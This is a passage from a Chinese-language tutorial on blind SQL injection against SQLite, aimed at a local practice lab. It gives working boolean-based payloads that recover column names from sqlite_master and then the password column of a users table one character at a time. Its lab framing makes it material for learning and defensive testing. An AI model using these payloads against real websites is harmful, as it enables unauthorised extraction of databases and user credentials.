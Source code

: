 http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (select hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),1,1)) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info') < hex('q')-- -&search=Check+Plan
页面内容与之前的一致，即列名第一个字符在q之前。后续步骤与前面猜解表名类似。

从列中猜解数据

接着让我们来猜解列中的数据。在猜解完表名和列名后，假设我们想要猜解users表中password列的数据。如我们所知，从表中的列里面提取数据的SQL查询如下：

Select column_name from table_name
上述查询将返回所有结果，为了限制只返回一条结果，可以使用：

Select password from users limit 1 offset 0
计算查询结果数量可以使用：

Select count(password) from users
获取单一结果的长度可以使用：

Select length(password) from users limit 1 offset 0
现在，让我们开始提取数据吧，SQL查询如下：

Select hex(substr(password,1,1)) from users limit 1 offset 0
在SQL盲注中payload则为：

and (Select hex(substr(password,1,1)) from users limit 1 offset 0)>hex(‘some_char’)
让我们开始提取数据的第一个字符吧，payload：

and (Select hex(substr(password,1,1)) from users limit 1 offset 0) > hex('k')
注入请求：

http://127.0.0.1/sqlite-lab/index.php
Post body data
tag=ubuntu' and (Select hex(substr(password,1,1)) from users limit 1 offset 0) >hex('a')-- -&search=Check+Plan
http://p5.qhimg.com/t01ddcc89c353f355a8.png
页面内容与之前一致，我们可以确定第一个字符在'a'之后，将字符换位'k‘，然后我们就可以看到页面不一致。

http://p0.qhimg.com/t01140973d275dbbda1.png
于是得到第一个字符位于'a'到'k'之间。后续猜解过程与前面猜解表名和列名一致，重复猜解动作直到猜解出所有字符为止。

致谢

特别感谢IndiShell Crew 和 Myhackerhouse给我的灵感。

参考链接

https://www.sqlite.org/ 

MeasureMeasure
